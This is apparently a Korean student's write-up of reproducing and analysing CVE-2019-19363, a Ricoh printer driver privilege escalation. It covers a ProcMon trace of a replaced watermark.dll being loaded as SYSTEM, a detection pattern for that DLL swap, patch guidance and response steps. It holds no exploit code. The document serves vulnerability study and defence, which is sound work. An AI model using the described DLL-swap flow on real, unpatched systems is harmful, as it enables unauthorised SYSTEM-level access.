<figure class="analysis-figure" style="width: 550px; max-width: 100%;">
  <a href="/assets/images/cve-2019-19363/07-image.png"></a>
</figure>

추가로 ProcMon 필터를 이렇게 잡아줌

### 실제 재현

이제 run.bat을 실행해 준다.

<figure class="analysis-figure" style="width: 550px; max-width: 100%;">
  <a href="/assets/images/cve-2019-19363/08-image.png"></a>
</figure>

아래 더 있지만 결과를 보기 위해 패스함<br />(실행 했다는 증거)

<figure class="analysis-figure" style="width: 550px; max-width: 100%;">
  <a href="/assets/images/cve-2019-19363/09-image.png"></a>
</figure>

이렇게 실행한 뒤 확인해 보면 SYSTEM 권한으로 작동한 것을 확인할 수 있다.

<h2 id="procmon-analysis">추가 : ProcMon분석</h2>

파일 : 만약 이걸보고 오호! 나도 해보고 싶다 하면 다운 ㄱㄱ

<a href="/assets/files/cve-2019-19363/CVE-2019-19363-Logfile.csv" download="CVE-2019-19363-Logfile.csv">CVE-2019-19363-Logfile.csv 다운로드</a>

<a href="/assets/files/cve-2019-19363/CVE-2019-19363-Logfile.pml" download="CVE-2019-19363-Logfile.pml">CVE-2019-19363-Logfile.pml 다운로드</a>

<figure class="analysis-figure" style="width: 550px; max-width: 100%;">
  <a href="/assets/images/cve-2019-19363/12-image.png"></a>
</figure>

ProcMon에서는 이렇게 763,495개의 이벤트 중에서 631개의 이벤트가 노출되었다.

살펴본 결과 핵심은 다음과 같다.

#### 1. DLL 초기화

<figure class="analysis-figure" style="width: 550px; max-width: 100%;">
  <a href="/assets/images/cve-2019-19363/13-image.png"></a>
</figure>

watermark.dll을 0바이트로 초기화하는 야무진 행위를 보임

#### 2. 정상 DLL 생성

<figure class="analysis-figure" style="width: 550px; max-width: 100%;">
  <a href="/assets/images/cve-2019-19363/14-image.png"></a>
</figure>

프린터 설치 과정에서 정상 watermark.dll이 기록된 것을 확인

#### 3. 공격자 DLL로 교체됨

<figure class="analysis-figure" style="width: 550px; max-width: 100%;">
  <a href="/assets/images/cve-2019-19363/15-image.png"></a>
</figure>

대상 DLL이 Dll.dll과 동일한 크기인 103,424바이트로 교체됨

#### 4. 공격자 DLL 로드시킴

<figure class="analysis-figure" style="width: 550px; max-width: 100%;">
  <a href="/assets/images/cve-2019-19363/16-image.png"></a>
</figure>

교체 후 약 <b>0.414초 만에</b> PrintIsolationHost.exe가 해당 DLL을 성공적으로 불러왔다. <br />이후에 result.txt에 nt authority\\system이 기록되어 이때 공격자 코드가 SYSTEM 권한으로 실행된 것으로 딱 걸려버림

#### 5. 정상 DLL로 복원

<figure class="analysis-figure" style="width: 550px; max-width: 100%;">
  <a href="/assets/images/cve-2019-19363/17-image.png"></a>
</figure>

여기서 프린터 설치 과정에 의해 정상적인 실행 전 DLL로 다시 기록된 모습을 볼 수 있다.

#### 6. <b>정상 DLL 재로드</b>

<figure class="analysis-figure" style="width: 550px; max-width: 100%;">
  <a href="/assets/images/cve-2019-19363/18-image.png"></a>
</figure>

정상적인 DLL을 재로드 시키는 장면까지 포착했다.

#### 결과

```c++
정상 DLL 생성
→ PoC가 103,424바이트 공격자 DLL로 교체
→ PrintIsolationHost.exe가 교체된 DLL 로드
→ SYSTEM 권한 코드 실행
→ 정상 5,237,760바이트 DLL로 복원
```

```c++
증거 행위 파악 SHA-256

CSV
6A608049B1CD8F95193F68D5E4906B0BAB3BC84E93A2A54A22D7A0469877E465

PML
818375BF57D3CDB6E8D3A0E0C35434B2C55BACB0F2344406E454189EF7A6B25B
```

<h2 id="patch-and-detection">패치 방법과 탐지·대응 방안 조사</h2>

#### 패치 방법

가장 확실한 조치는 취약한 PCL6 UniversalDriver V4.23을 제거하고 <b>Ricoh Universal Print Driver 4.27 이상 또는 현재 제공되는 최신 버전</b>으로 교체하는 것이다.

Ricoh는 Universal Print Driver에 4.27 이상을 사용하고, 다른 드라이버는 배포 이력에 Countermeasure for vulnerability CVE-2019-19363 표시가 있는 버전을 사용하도록 안내한다.

여러 Ricoh 드라이버를 사용하거나 Point & Print 환경이라면 Ricoh의 Printer Security Program을 모든 PC에 적용한다. <br />드라이버를 새로 설치하거나 업데이트한 뒤에도 보안 프로그램을 다시 실행해야 한다.

#### 탐지 방안

가장 중요한 탐지 조건은 다음과 같다.

```txt
일반 사용자 프로세스가
C:\ProgramData\RICOH_DRV\...\*.dll을 수정
        ↓
수 초 안에 PrintIsolationHost.exe가 같은 DLL을 로드
```

Sysmon을 사용한다면 다음 이벤트를 수집한다.

- Event ID 1: 프로세스 생성
- Event ID 7: DLL 이미지 로드
- Event ID 11: 파일 생성 또는 덮어쓰기

Image Load 이벤트는 기본적으로 비활성화되어 있으며 로그가 많이 발생해서, PrintIsolationHost.exe와 RICOH\_DRV 경로로 범위를 제한하는 것이 좋음

Windows 보안 로그에서는 Event ID 4688로 프로세스 생성 관계를 확인한다.<br />명령행까지 기록하려면 Include command line in process creation events 정책을 함께 활성화해야 한다.

#### <b>대응 방안</b>

실제 시스템에서 공격 흔적이 발견되면 다음 순서로 대응한다.

1. 해당 PC를 네트워크에서 격리한다.
2. EDR·Sysmon·보안 이벤트·PrintService 로그를 보존<s>(분석할 거 생겼다 개꿀\~)</s>
3. RICOH\_DRV의 DLL 해시, 서명, ACL과 설치된 프린터 드라이버 버전을 수집한다.
4. PrintIsolationHost.exe가 생성한 비정상 자식 프로세스와 지속성 흔적을 조사한다.
5. 취약 드라이버를 제거하고 최신 드라이버와 Ricoh Security Program을 적용한다.
6. 동일한 취약 드라이버와 ACL이 존재하는 다른 PC를 전사적으로 점검한다.
7. 실제 SYSTEM 권한 코드 실행이 확인됐다면 시스템 무결성을 신뢰하기 어려우므로 재이미징을 우선 고려해야 할 수도 있음

> 재현한 실습은 vm에서 진행해서 실습을 마친 뒤 스냅샷으로 복구하면 그만이긴 하다

#### 간단 요약

드라이버 업데이트만 하고 끝내기보다, 패치 후 ACL 검증과 구버전 드라이버 제거까지 수행해야 한다.<br />탐지 측면에서는 단순 해시 검사보다 일반 사용자 DLL 쓰기 → PrintIsolationHost.exe의 동일 DLL 로드 → 비정상 자식 프로세스 생성을 하나의 연속된 공격 흐름으로 탐지하는 방식이 가장 효과적이다.

<h2 id="reflection">자신의 생각 + 과제를 다 한 후 배운 점</h2>

이번에는 원데이 취약점 분석을 해봤는데 결과적으로 말하면 재밌었다.<br />원데이 중에서도 프린트 관련 원데이는 처음 분석해 보는데 일단 기본적인 프린트를 해주는 구조부터 몰랐었던 0의 상태로 시작을 해서 그런가 알게 된 지식이 더 많은 것 같다.

꽤 쉽게 SYSTEM 권한을 실행해서 털어버릴 수 있다는 게 개인적으로 놀라웠던 것 같다.

특히 이 취약점은 복잡한 메모리 공격이나 어려운 기술을 사용하는 것이 아니라, 일반 사용자도 수정할 수 있는 DLL을 SYSTEM 권한의 프로세스가 그대로 불러온다는 단순한 권한 설정 문제에서 발생했다는 점이 인상 깊었다. 사소해 보이는 파일 권한 하나가 전체 시스템 권한 상승으로 이어질 수 있다는 것을 직접 확인할 수 있었다.

공개된 PoC를 단순히 실행하는 것에 그치지 않고, 배치 파일과 익스플로잇 프로그램, 권한 상승을 증명하는 DLL이 각각 어떤 역할을 담당하는지 분석하면서 전체 공격 흐름도 이해할 수 있었다. 또한 Procmon을 통해 watermark.dll이 공격자 DLL로 교체되고, PrintIsolationHost.exe가 이를 불러온 뒤 다시 정상 DLL로 복원하는 과정까지 직접 확인했다.

이번 과제를 통해 취약점을 분석할 때는 결과만 확인하는 것이 아니라, 취약점이 발생한 원인과 권한 구조, 공격 코드의 동작, 시스템에서 실제로 발생한 행위까지 함께 확인해야 한다는 것을 배웠다.<br />또한 패치를 적용하는 것뿐만 아니라 취약한 권한이 정상적으로 수정됐는지 검증하고, 파일 변경과 DLL 로드 같은 공격 흔적을 탐지하는 과정도 중요하다고 느꼈다.

결과적으로 이번 분석은 Windows 프린터 드라이버의 구조와 권한 동작 방식을 이해하고, 공개 PoC를 실제 환경에서 분석하고 재현하는 전 과정을 경험할 수 있었던 과제였다.<br />앞으로 다른 원데이 취약점을 분석할 때도 단순히 PoC를 실행하는 데서 끝내지 않고, 왜 취약한지와 시스템 내부에서 어떤 변화가 발생하는지까지 확인해 보고 싶다.
